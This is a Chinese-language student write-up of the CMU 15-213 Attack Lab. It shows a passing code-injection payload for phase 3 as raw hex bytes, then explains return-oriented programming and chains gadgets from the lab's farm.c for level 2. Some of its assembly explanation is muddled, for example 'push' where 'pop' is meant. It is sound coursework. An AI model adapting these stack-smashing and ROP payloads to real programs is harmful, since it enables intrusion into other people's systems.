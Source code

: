 ```bash
$ ./ctarget -qi answer/phase_3_raw
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:3:68 FA 18 40 00 48 C7 C7 A8 DC 61 55 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 
```

`PASS`!!!

## Part2 : Return-oriented Programming Attacks

下面我们提到的是在现代操作系统为了应对缓冲区溢出攻击实施了栈随机化和限制可执行内存区域后，从而诞生的一种新的攻击方式，不是向栈中数据区域内注入代码，而是程序中的已有代码，通过一系列的`gadgets`，来组成我们自己的代码，完成执行逻辑。而这些`gadget`的特点是它们不会创建本地变量，在栈中不分配额外空间，只是单纯的`ret`或者对入參操作，那么我们可以截取这些`gadget`的部分机器代码组成我们的其中一条或多条逻辑，然后通过`ret`到下一个`gadget`继续拼接我们自己的代码。

![3yCpss.png](https://s2.ax1x.com/2020/02/29/3yCpss.png)

就这样，一系列的`gadget`地址在栈中组成了一条控制转移链，不断的拼凑出我们想要的代码，执行我们想要的逻辑，从而实现攻击。

用到的部分汇编代码编码成机器代码的规则：

![3yC9Ln.png](https://s2.ax1x.com/2020/02/29/3yC9Ln.png)

### Level 2

因为不能注入代码，我们只好从`rtarget`的部分源码`farm.c`上找`gadget`，来拼凑代码。

我们想要的逻辑是，将`cookie`作为无符号整数的形式在重定向`touch2()`之前传送到寄存器`$rdi`中。

于是，想到可以先将`cookie`存放到栈顶，然后利用拼接的`push %rax`指令将其从栈中弹出到寄存器`$rax1`中，再利用拼接的传送指令`movl %rax,%rdi`以完成整个逻辑。

在`farm.c`对应的汇编代码中找到两个`gadget`：

```s
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   

00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq 
```

拼接这两个`gadget`，从而得到我们想要的汇编代码：

```s
58  pop(%rax)
90  nop
c3  retq
48 89 c7    movq %rax,%rdi
90          nop
c3          retq
```
